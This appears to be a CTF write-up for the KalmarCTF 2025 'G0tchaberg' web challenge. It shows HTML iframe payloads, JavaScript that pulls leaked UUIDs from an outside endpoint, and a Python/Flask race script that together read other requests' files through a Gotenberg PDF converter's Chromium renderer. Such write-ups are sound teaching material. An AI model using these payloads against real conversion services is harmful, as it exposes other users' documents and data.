 ```yaml
---
layout: post
title: KalmarCTF 2025 Web G0tchaberg Writeup
tags: [ctf, ctf writeup, ctf web]
---
```


## The Challenge

This challenge involved a bot periodically sending an HTML file containing the flag to a [gotenberg](https://gotenberg.dev/) instance, which converts it to a PDF.. The version of gotenberg was the latest at the time of the CTF, 8.17.3.

The process runs continuously:

```sh
while true; do
    curl -s 'http://gotenberg:3000/forms/chromium/convert/html' --form 'files=@"index.html"' -o ./output.pdf
    sleep 5
done
```

## Tracing Down the Flag

Our goal is to extract the flag by interacting with the gotenberg instance.

With some [source code](https://github.com/gotenberg/gotenberg/blob/85eaef05ad0cf60917cd234f72433bcf85ef2f27/pkg/modules/chromium/routes.go).
) and experiments, I found that while a request is being processed:
- The uploaded HTML file is stored in `/tmp/[UUID_A]/[UUID_B]/index.html`.
- The generated PDF file is saved in `/tmp/[UUID_A]/[UUID_B]/[UUID_C].pdf`.
- `UUID_A` remains constant, but `UUID_B` is unique per request.
- Files are deleted once processing is complete.

Since the flag is stored temporarily, I needed a way to access it before it was deleted.

## Leaking Directory Paths

With iframe, it is possible to leak the content of another file on the server, or list the directory if the directory does not contain an `index.html` file. (I had to use relative path, somehow I could not get e.g. `file:///etc/passwd` to work, possibly due to browser security restrictions or I did something wrong).

With the simple payload, I was about to leak the temporary file locations:

```html
<iframe src="../" width="1000px" height="1000px"></iframe>
```

![Screenshot of the PDF content of the leaked temporary directory](/assets/image/kalmar-ctf-2025-web-g0tchaberg-writeup/leak-directory.png)

However, the flag files are deleted after the request is processed, I still need to find a way to get around this.

## Make the Flag Stay Longer

Reading the [docs](https://gotenberg.dev/docs/configuration#chromium) of gotenberg, it runs a **single** Chromium instance, meaning the subsequent requests are queued while one is being processed. If the instance is busy, the subsequent uploaded HTML will be kept on the server until it is processed.

I created a large HTML files containing many iframes to make PDF rendering take some time (more than 5 seconds), and the last iframe lists the directory to the HTML file containing the flag.

```html
<iframe src="../../" width="1000px" height="100px"></iframe>
(800 of the same iframes)
<iframe src="../../" width="1000px" height="100px"></iframe>
<iframe src="../" width="1000px" height="1000px"></iframe>
```

![Screenshot of the PDF content of the leaked temporary directory with 2 subdirectories](/assets/image/kalmar-ctf-2025-web-g0tchaberg-writeup/leak-directory2.png)

In the example, it listed the directory of `/tmp/dfbe2bb7-e1ca-4cb4-ac55-f84aff6cd7dc/`, which contains two subdirectories `3118c7b5-0d4d-4317-afb5-90e216d5c1ce` and `5e1a4e83-99c3-4183-9967-842fa3c24fe3`. One of them is for the current request, and the other is for the flag queued afterwards. Say `5e1a4e83-99c3-4183-9967-842fa3c24fe3` is for the flag, the HTML file containing the flag is in `/tmp/dfbe2bb7-e1ca-4cb4-ac55-f84aff6cd7dc/5e1a4e83-99c3-4183-9967-842fa3c24fe3/index.html`.

## Get the Flag

Once I knew the flag’s location, I needed a way to read it before deletion. However, simply requesting the path would fail since files are deleted before the next request.

### Using JavaScript for Dynamic Fetching

JavaScript is executed on the Chromium instance, so I created a payload that dynamically fetches the leaked path and loads it into an iframe.

```html
<!DOCTYPE html>
<html lang="en">
<head>
</head>
<body>
  <iframe src="../" width="1000px" height="200px"></iframe>
  (49 of the same iframes)
  <iframe src="../" width="1000px" height="200px"></iframe>
  <script>
    fetch('https://example.com/uuids').then(response => response.json()).then(data => {
      const uuids = [data.uuids[0]];
      uuids.forEach(uuid => {
        const iframe = document.createElement('iframe');
        iframe.src = `../${uuid}/index.html`;
        iframe.width = '1000px';
        iframe.height = '200px';
        document.body.appendChild(iframe);
      })
    })
  </script>
</body>
</html>
```

In the payload, I also put a lot of iframes to make the JavaScript to have enough time to run. The server returns all of the directories listed, and it should contain the directory containing the flag, as well as the that request. As that request is processed first, and that directory will no longer exist, having an iframe with that path will make the PDF rendering fail, so I only take one of the UUIDs and hope it is the one containing the flag, thus it takes several attempts to get the flag.

## Final Payload

To time the exploit correctly, I automate the process with a Python script, which also automatically serves the leaked paths through HTTP.

```python
import signal
import sys
from flask import Flask
from flask_cors import CORS
import requests
import threading
import time
import re

instance_address = 'http://localhost:8642'
instance_address = 'https://7a70d65746ee40ceb53f099a7429b4d5-50133.inst3.chal-kalmarc.tf'

app = Flask(__name__)
CORS(app)

uuids = []

@app.route('/uuids')
def return_uuids():
    return {'uuids': uuids}

def upload(filename):
    r = requests.post(
        f'{instance_address}/forms/chromium/convert/html',
        files={
            'files': ('index.html', open(filename, 'rb')),
        },
    )
    return r

def signal_handler(sig, frame):
    sys.exit(0)

def run_flask():
    app.run(debug=True, use_reloader=False)

def run_upload_payload1():
    global uuids
    print('Uploading payload1.html', flush=True)
    file = upload('payload1.html').content
    uuid_pattern = rb'\b[0-9a-fA-F]{8}-[0-9a-fA-F]{4}-[1-5][0-9a-fA-F]{3}-[89ABab][0-9a-fA-F]{3}-[0-9a-fA-F]{12}/[0-9a-fA-F]{8}-[0-9a-fA-F]{4}-[1-5][0-9a-fA-F]{3}-[89ABab][0-9a-fA-F]{3}-[0-9a-fA-F]{12}\b'
    uuids = [uuid.decode().split('/')[-1] for uuid in re.findall(uuid_pattern, file)] # extract directories from the PDF
    print(f'{uuids=}', flush=True)

def run_upload_payload1_again():
    print('Uploading payload1.html again', flush=True)
    upload('payload1.html')

def upload_payload2():
    print('Uploading payload2.html', flush=True)
    return upload('payload2.html').content


if __name__ == '__main__':
    signal.signal(signal.SIGINT, signal_handler)

    flask_thread = threading.Thread(target=run_flask, daemon=True)
    flask_thread.start()

    time.sleep(1)
    
    # upload payload 1
    upload_payload1_thread = threading.Thread(target=run_upload_payload1)
    upload_payload1_thread.start()

    time.sleep(0.1)

    # upload payload 1 again to delay the server (not sure if necessary)
    upload_payload1_again_thread = threading.Thread(target=run_upload_payload1_again)
    upload_payload1_again_thread.start()

    time.sleep(2) # make sure payload 2 is finishes upload after the first two requests as payload 1 is much larger

    # upload payload 2
    pdf = upload_payload2()
    with open('flag.pdf', 'wb') as f:
        f.write(pdf)
    print('Written to flag.pdf', flush=True)
```

Flag: `kalmar{g0tcha!_well_done_that_was_fun_wasn't_it?_we_would_appreciate_if_you_create_a_ticket_with_your_solution}`

![Screenshot of exported PDF of the flag contained in an iframe](/assets/image/kalmar-ctf-2025-web-g0tchaberg-writeup/flag.png)

### Solution summary

Since there is only one chromium instance

I uploaded a HTML with a lot of iframes, with the last iframe `../` to leak the UUID when the bot uploads

I upload another of the same file immediately just to delay the process of the next request (not sure if necessary)

I upload another HTML with some iframes to give time for JS to run, with JS to load UUIDs from an endpoint set to UUIDs leaked and take a random of the (hopefully) 4 UUIDs returned from the endpoint and hoping it is the flag one, and append a iframe `../${uuid}/index.html`

## Afterthought

After the CTF when I was browsing through the CTF Discord chat, I realised that instead of having a lot of iframes to delay the rendering I could have used [`waitDelay` and `waitForExpression`](https://gotenberg.dev/docs/routes#wait-before-rendering-chromium) to control the time delay and JavaScript completion which would have been more reliable and a lot easier.
